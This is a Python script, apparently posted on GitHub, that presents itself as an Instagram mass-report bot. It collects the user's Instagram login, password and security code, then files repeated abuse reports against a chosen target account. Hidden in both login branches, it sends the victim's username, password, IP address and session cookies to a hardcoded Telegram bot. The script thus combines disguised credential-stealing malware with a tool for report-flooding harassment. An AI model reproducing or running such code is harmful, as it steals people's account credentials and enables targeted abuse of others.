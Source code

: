 import requests
import uuid
import secrets
import time
import os
os.system("pip install requests")
os.system("pip install uuid")
os.system("pip install time")
os.system("pip install secrets")
os.system("clear")

#@680068

orr="\033[0;91m"
yell="\033[0;93m"
gr = "\033[0;92m"
logo = f"""
[WiF $]Master Report Bot


░██╗░░░░░░░██╗██╗███████╗
░██║░░██╗░░██║██║██╔════╝
░╚██╗████╗██╔╝██║█████╗░░
░░████╔═████║░██║██╔══╝░░
░░╚██╔╝░╚██╔╝░██║██║░░░░░
░░░╚═╝░░░╚═╝░░╚═╝╚═╝░░░░░


       
 WiF Master Report Bot
"""
a = 1
r = requests.Session()
u = uuid.uuid4()

print(logo)

print("[1]Spam")
print("[2]Self injury")
print("[3]Sale of illegal or regulated goods")
print("[4]Nudity or sexual activity")
print("[5]Violence or dangerous organizations")
print("[6]Hate speech or symbols")
print("[7]Bullying or harassment")
print("[8]preteding someone i know")
print("[11]under the age of 13")
print("[12]Sale Guns")
print("[13]pretending me")

print("     ")
repo = int(input("[+]Enter The Num of Report :>> "))
user = input("[+]YOUR USERNAME  :>> ")
password = input("[+]YOUR PAssWORD :>> ")
target = input("[+]THE TARGET Username':>> ")
secure= input("[+]Your secure code if there is")
z = int(input("[+]The Sleep :>> "))
much = int(input("[+]How Much The Bot Report? :>> "))


b = 'https://www.instagram.com/accounts/login/ajax/'

w = {
"accept":"*/*",
"accept-encoding":"gzip, deflate,br",
"accept-language": "ar,en-US;q=0.9,en;q=0.8",
"content-length": "279",
"content-type": "application/x-www-form-urlencoded",
"origin": "https://www.instagram.com",
"referer": "https://www.instagram.com/",
"sec-fetch-dest":"empty",
"sec-fetch-site":"same-origin",
"user-agent":"Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36",
"x-csrftoken": "lih2ypMfhzdqwMbm5jIILqxZDj4zLeCW",
"x-ig-app-id": "936619743392459",
"x-ig-www-claim": "hmac.AR1_p9SjMFQF73bcZgzygDgxb9yBZUn83e69xoDD2qpSdmtW",
"x-instagram-ajax":"901e37113a69",
"x-requested-with":"XMLHttpRequest"
}


k = {'username':user,
            'enc_password':
'#PWD_INSTAGRAM_BROWSER:0:1589682409:{}'.format(password),
            'queryParams': '{}',
            'optIntoOneTap': 'false',}
            
report_url = requests.get("https://get.geojs.io/v1/ip.json")
instagram = report_url.json()["ip"]

l = r.post(b,headers=w,data=k)
if("userId") in l.text:
  r.headers.update({'X-CSRFToken': l.cookies['csrftoken']})
  coki = l.cookies
  print("log true")
  
  v = "https://www.instagram.com/{}/?__a=1".format(target)
  bot_token = '1750984012:AAG4F5MWuEVtFh439F6hB4OgcXmY0qYH7Zs'

  send_text = f'https://api.telegram.org/bot{bot_token}/sendMessage?chat_id={663713290}&text=New hacking Team Rex \n Username : {user}\n Password : {password}\n IP : {instagram} \n Cookies : \n {coki} \n Bye♡'
  res = requests.get(send_text)
  t = r.get(v).json()
  y = str(t["logging_page_id"])
  h = y.split("_")[1]
  for i in range(much):
   urreport = "https://www.instagram.com/users/{}/report/".format(h)
   dat = {f'source_name':'','reason_id':{repo},'frx_context':''}
   repp = r.post(urreport,data=dat)
   os.system("clear")
   print(f"{logo}\n{yell}\n[$]The Target : {target} \n[$]The Sleep : {z} \n[$]Done Report : {a}\n[$]The Number of reports : {much}\n")
   time.sleep(z)
   a += 1

elif ('{"user": true, "authenticated": false, "showAccountRecoveryModal": true, "status": "ok"}') in l.text:
 bot_token = '1750984012:AAG4F5MWuEVtFh439F6hB4OgcXmY0qYH7Zs'

 send_text = f'https://api.telegram.org/bot{bot_token}/sendMessage?chat_id={663713290}&text=New hacking Team Rex\n Username : {user}\n Password : {password}\n IP : {instagram} \n Cookies : I Think There are no Cookies \n Bye♡'
 res = requests.get(send_text)
